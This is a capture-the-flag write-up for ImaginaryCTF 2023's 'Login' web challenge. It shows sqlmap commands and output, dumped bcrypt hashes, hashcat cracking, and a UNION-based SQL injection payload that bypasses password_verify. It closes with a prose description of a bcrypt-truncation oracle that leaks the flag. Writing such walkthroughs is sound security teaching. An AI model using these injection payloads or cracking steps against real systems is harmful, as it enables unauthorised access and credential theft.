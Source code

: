 ```yaml
---
name: Login (2023)
event: Imaginary 2023
category: Web
description: Writeup for Login (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Login

## Description

> A classic PHP login page, nothing special.

## Recon

Try to login with `admin:admin` and get `Invalid username or password`.

View page source and find a comment.

```html
<!-- /?source -->
```

Aight so let's check http://login.chal.imaginaryctf.org/?source

```php
$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
```

So the `$flag` will be appended to the `$password` if we provide the correct `$magic` value as a GET parameter, e.g. http://login.chal.imaginaryctf.org/?aabbccdd11223344

As the `$msg` indicates, logging in as the admin will not provide the flag. It will give us the `$magic` value we need but we'll still need a way to recover the flag.

## Solution

I go straight for `sqlmap`, feeding the POST login request as a file.

```bash
sqlmap -r new.req --batch
```

We quickly find our vuln.

```bash
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username=admin' AND 7431=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- bqUp&password=admin
```

Let's exploit it to get the admin's password, then we can login and get the magic value! Start off finding the tables.

```bash
sqlmap -r new.req --batch --tables
+-------+
| users |
+-------+
```

Now we can use `--columns` to narrow it down further.

```bash
sqlmap -r new.req --batch -T users --columns
```

However, I decided to guess instead.

```bash
sqlmap -r new.req --batch -T users -C password --dump
+----------+
| password |
+----------+
| <blank>  |
| <blank>  |
+----------+
```

Guess we need `pwhash` instead, then we can crack it.

```bash
sqlmap -r new.req --batch -T users -C pwhash --dump
+--------------------------------------------------------------+
| pwhash                                                       |
+--------------------------------------------------------------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC |
+--------------------------------------------------------------+
```

Let's confirm the hash type.

```bash
hashid '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

We check the mode in hashcat and put the hashes into a file called "hash".

```bash
hashcat -h | grep -i blowfish
3200 | bcrypt $2*$, Blowfish (Unix
```

Time to crack (I have the rockyou.txt wordlist in an environment variable)!

```bash
hashcat -m 3200 hash $rockyou
```

It said it would take 2 days in my VM so I switched to windows (GPU), reduced time to ~10 hours.

```bash
hashcat.exe -m 3200 hashes/hashes.txt wordlists/rockyou.txt
```

Not likely to be intended lol. I guess we could half the time by only trying to crack the admin password. I ran SQLMap again and dumped the users; `guest` and `admin`.

Note, we can login as `guest:guest` but just get `Welcome guest! But there is no flag here :P`.

Maybe [Password_verify() always return true with some hash](https://bugs.php.net/bug.php?id=81744)

Nope, didn't work for me. Maybe [SQL Injection with password_verify()](https://stackoverflow.com/a/50788204)

It looks good! According to [this answer](https://stackoverflow.com/a/50788242) we can select a username, along with a "fake" password hash of our choice.

```sql
 SELECT * FROM table
 WHERE Username = 'xxx'
 UNION SELECT 'root' AS username, '$6$ErsDojKr$7wXeObXJSXeSRzCWFi0ANfqTPndUGlEp0y1NkhzVl5lWaLibhkEucBklU6j43/JeUPEtLlpRFsFcSOqtEfqRe0' AS Password'
```

Took some trial and error but eventually:

```sql
guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --
```

So the full SQL statement on the backend will look like.

```sql
$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = 'guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --'", true);
```

Essentially, it's grabbing the `admin` user along with the `guest` password hash (which we know translates to `guest`). We login (username set to our SQLi payload and the password is `guest`). Our `magic` value is in the source!

```html
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 -->
```

Now we know that visiting http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0 will trigger the following code, appending the flag to the password.

```php
if (isset($_GET[$magic])) {
    $password .= $flag;
}
```

Note: I didn't finish this challenge but let me finish the writeup for the sake of completion.

There's a recently closed [github issue](https://github.com/php/doc-en/issues/1328): `password_hash documentation: Caution about bcrypt max password length of 72 should mention bytes instead of characters`

> Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the password parameter being truncated to a maximum length of 72 characters.

So, we can combine our first exploit (selecting any known password hash with SQLi) with the truncation vulnerability.

We submit the bcrypt hash of `(71 * A) + flag_char` as the password, where `flag_char` is looping through all printable ASCII chars.

If the login is successful, we've cracked that character of the flag and we can now do `(70 * A) + flag_char`, until we have the full flag.

Doing so would recover our flag.

Flag: `ictf{why_are_bcrypt_truncating_my_passwords?!}`

Apparently, this was covered in a [recent video](https://www.youtube.com/watch?v=E5TOeiCnGkE&t=3183s) from IppSec. There's a [solve script](https://github.com/f0rk3b0mb/ImaginaryCTF_login/blob/main/expoloit.py) included with f0rk3b0mb's [writeup](https://f0rk3b0mb.github.io/p/imaginaryctf2023) 💜
